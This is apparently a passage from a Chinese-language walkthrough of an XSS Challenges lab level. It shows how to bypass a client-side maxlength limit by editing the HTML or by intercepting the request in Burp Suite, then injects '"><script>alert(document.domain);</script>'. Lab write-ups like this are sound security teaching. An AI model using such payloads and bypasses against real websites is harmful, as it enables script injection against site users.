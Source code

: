 ![](./../../../../images/XSS_Challenges/%E5%B0%9D%E8%AF%95%E6%8F%90%E4%BA%A4%20js%20%E4%BB%A3%E7%A0%81.png)

> 发现字符长度有限制，无法提交 js 代码

查看源码

```
<input type="text" name="p1" maxlength="15" size="30" value="">
```

>`maxlength="15" ` 限制字符长度为 15

修改限制为 150

```
<input type="text" name="p1" maxlength="150" size="30" value="">
```

再次提交

```
"><script>alert(document.domain);</script>
```

> 成功注入
>
> 由于只对前端限制，也可以通过 burpsuite 抓包修改
>
> ```
> p1="><script>alert(document.domain);</script>
> ```
>
> 若有 WAF 或后端限制，则无法修改

